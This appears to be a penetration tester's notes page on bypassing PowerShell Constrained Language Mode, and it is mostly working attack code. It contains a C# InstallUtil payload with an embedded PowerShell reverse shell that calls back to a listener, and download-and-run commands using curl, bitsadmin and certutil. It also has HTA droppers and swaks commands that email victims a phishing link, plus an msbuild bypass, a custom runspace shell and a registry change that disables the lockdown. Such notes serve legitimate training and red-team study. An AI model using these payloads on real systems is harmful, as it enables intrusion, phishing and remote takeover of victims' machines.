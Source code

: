 # CLM Bypass

<details>

<summary>Checking CLM</summary>

```powershell
$ExecutionContext.SessionState.LanguageMode
```

* `FullLanguage` → **No restrictions** (default for admin users).
* `RestrictedLanguage` → **Highly restricted**, only allows basic expressions.
* `ConstrainedLanguage` → **Blocks .NET, COM objects, and Reflection**, while allowing most built-in cmdlets.

</details>

<details>

<summary>[Unprivileged] Bypass Using InstallUtil (bypass_clm_rev_shell.exe)</summary>

<pre class="language-csharp" data-line-numbers><code class="lang-csharp">using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("Hello from main");
        }
    }
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : Installer
    {
<strong>        public override void Uninstall(System.Collections.IDictionary savedState)
</strong>        {
            string rev = @"$client = New-Object System.Net.Sockets.TCPClient('192.168.45.198',53);
                                    $stream = $client.GetStream();
                                    [byte[]]$bytes = 0..65535|%{0};
                                    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
                                    {
	                                    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	                                    try
	                                    {	
		                                    $sendback = (iex $data 2>&#x26;1 | Out-String );
		                                    $sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';
	                                    }
	                                    catch
	                                    {
		                                    $error[0].ToString() + $error[0].InvocationInfo.PositionMessage;
		                                    $sendback2  =  ""ERROR: "" + $error[0].ToString() + ""`n`n"" + ""PS "" + (pwd).Path + '> ';
	                                    }	
	                                    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	                                    $stream.Write($sendbyte,0,$sendbyte.Length);
	                                    $stream.Flush();
                                    };
                                    $client.Close();";

            //String cmd = "IEX(New-Object Net.WebClient).DownloadString('http://192.168.45.198/runall.ps1') | powershell -noprofile";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(rev);
            ps.Invoke();
            rs.Close();
        }
    }
}

</code></pre>



![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png>)

In package manager console --> `NuGet\Install-Package Core.System.Configuration.Install -Version 1.1.0`

Also, need to add reference `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll`

Select Release & x64 version and build

### Exploitation

```bash
# Find full filepath of installutil: 
dir \Windows\Microsoft.NET\* /s/b | findstr InstallUtil.exe$
 
# Download CLM bypass reverse shell from Kali:
curl.exe http://192.168.45.198/bypass_clm_rev_shell.exe --output bypass_clm_rev_shell.exe

# Bypass clm with installutil:
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "bypass_clm_rev_shell.exe"

# Obtain reverse shell
nc -lvp 53
```

### Exploiting via .hta file from email

<pre><code># Encode bypass_clm_rev_shell with certutil
<strong>certutil -f -encode bypass_clm_rev_shell.exe enc.txt
</strong></code></pre>

* Rev.hta

```javascript
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
	
//Using InstallUtil
var re = shell.Run("powershell -windowstyle hidden bitsadmin /Transfer newjob http://192.168.45.170/enc.txt c:\\windows\\temp\\enc.txt;certutil -decode c:\\windows\\temp\\enc.txt c:\\windows\\temp\\bypass.exe;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\installutil.exe /logfile= /LogToConsole=false /U C:\\windows\\temp\\bypass.exe")

</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

* Send Email to user

```bash
swaks --to mary@example.com --server 192.168.131.159 --body "Hello, check out my link. http://192.168.45.170/rev.hta" --header "Subject: Issues" --from bob@example.com
```



</details>

<details>

<summary>[Unprivileged] Bypass Using MsBuild (FullBypass.csproj)</summary>

In [FullBypass.csproj](https://raw.githubusercontent.com/n000b3r/PrivEsc/d2c98251012732790d19b2e390bb448a7b2bb15c/Windows/clm_bypass/FullBypass.csproj): edit line168 to use [runall.ps1 --> AMSI bypass (1.txt & 2.txt) --> simple\_ps\_revshell.ps1](powershell-shellcode-runner.md#simple-powershell-reverse-shell-with-amsi-bypass-simple_ps_revshell.ps1)

![](<../.gitbook/assets/image (4) (1) (1) (1) (1).png>)

```
# Download to Victim machine
curl.exe http://192.168.45.198/FullBypass.csproj -o FullBypass.csproj

# Build the FullBypass C# project
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe .\FullBypass.csproj

# Obtain reverse shell
nc -lvp 53
```

### Exploiting via .hta from email

```
# Encode FullBypass.csproj with certutil
certutil -f -encode FullBypass.csproj enc.txt
```

* Rev.hta

<pre><code>&#x3C;html>
&#x3C;head>
&#x3C;script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
	
// Using msbuild
var re = shell.Run("powershell -windowstyle hidden bitsadmin /Transfer newjob http://192.168.45.170/enc.txt c:\\windows\\temp\\enc.txt;certutil -decode c:\\windows\\temp\\enc.txt c:\\windows\\temp\\FullBypass.csproj;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\msbuild.exe c:\\windows\\temp\\FullBypass.csproj")
<strong>
</strong><strong>&#x3C;/script>
</strong>&#x3C;/head>
&#x3C;body>
&#x3C;script language="JScript">
self.close();
&#x3C;/script>
&#x3C;/body>
&#x3C;/html>
</code></pre>

* Send email to user

```
swaks --to mary@example.com --server 192.168.131.159 --body "Hello, check out my link. http://192.168.45.170/rev.hta" --header "Subject: Issues" --from bob@example.com
```

</details>

<details>

<summary>[Unprivileged] Custom InstallUtil Application Template</summary>

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace InstallUtil_custom_exe
{
    internal class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        //Put DLLImports here
        
        //End of DLLImports
        
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
         //Put custom code here

         //End of custom code
        }
    }
}

```

In package manager console --> `NuGet\Install-Package Core.System.Configuration.Install -Version 1.1.0`

Also, need to add reference `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll`

</details>

<details>

<summary>[Unprivileged] CLM Bypass Using PSByPassCLM</summary>

* Emulate an interactive PowerShell console in a runspace unaffected by language mode
* Need to add reference
  * ```powershell
    C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
    ```
  * ![](<../.gitbook/assets/image (10) (1) (1) (1) (1).png>)

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Collections.ObjectModel;
using System.Text;

namespace PowerShellConstrainedLanguageBypass {
    public class Program {
        public static void Main(string[] args) {
            Runspace runspace = RunspaceFactory.CreateRunspace();
            runspace.Open();

            RunspaceInvoke runSpaceInvoker = new RunspaceInvoke(runspace);
            runSpaceInvoker.Invoke("Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope Process");

            string cmd = "";
            do {
                Console.Write("PS > ");
                cmd = Console.ReadLine();

                if (!string.IsNullOrEmpty(cmd)) {

                    using (Pipeline pipeline = runspace.CreatePipeline()) {

                        try {
                            pipeline.Commands.AddScript(cmd);
                            pipeline.Commands.Add("Out-String");

                            Collection<PSObject> results = pipeline.Invoke();
                            StringBuilder stringBuilder = new StringBuilder();

                            foreach (PSObject obj in results) {
                                stringBuilder.AppendLine(obj.ToString());
                            }

                            Console.Write(stringBuilder.ToString());
                        }

                        catch (Exception ex) {
                            Console.WriteLine("{0}", ex.Message);
                        }
                    }
                }
            } while (cmd != "exit");
        }
    }
}
```

</details>

<details>

<summary>[Privileged] CLM Bypass By Removal of the Associated Registry Key</summary>

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment\" -name __PSLockdownPolicy -Value 8
```

</details>

<details>

<summary>Bypass CLM (Metasploit)</summary>

[https://github.com/beauknowstech/OSEP-Everything/tree/main/CLM%20bypass](https://github.com/beauknowstech/OSEP-Everything/tree/main/CLM%20bypass)

```bash
meterpreter > load powershell
meterpreter > powershell_execute $ExecutionContext.SessionState.LanguageMode
[+] Command execution completed:
FullLanguage
```

</details>



